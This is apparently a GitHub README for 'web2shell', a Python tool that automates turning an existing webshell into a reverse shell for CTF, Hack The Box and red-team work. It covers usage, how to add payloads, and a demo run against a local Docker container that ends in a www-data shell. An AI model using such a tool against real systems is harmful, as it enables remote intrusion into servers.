 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] [--verbose] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. If none is provided you will be prompted to select one.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
  --verbose             verbose command output
```

Providing an IP and port will cause the program to skip the listener setup and assume you already have netcat/a comparable listener running at that address.

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't (it might not be in your `$PATH`), please specify the path to the binary with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`. If the payload specifies the shell replace it with `SHELLHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py http://127.0.0.1:8080/cmd.php?cmd=SHELL

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                v0.1.2   @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] br-3bd00064871f
[-] docker0
[-] br-a01c69609a5e
[-] br-a193929c6ae4
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] br-2369a8165a53
[-] veth18d6ac6
No interface provided. Please enter the name of an available interface or 'exit' to quit:
> docker0
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[x] 1025 already in use or unavailable.
[-] 1026 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1026...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1026
Ncat: Listening on 0.0.0.0:1026
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
[-] ruby found at /usr/bin/ruby2.7
[-] ruby found at /usr/bin/ruby
[-] go found at /usr/bin/go
Finding shells...
[-] bash found at /bin/bash
[-] sh found at /bin/sh
Executing reverse shell...
Bins to test: 7
Shells to test: 2
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:46232.
www-data@3b20951ed443:/var/www/html$
```
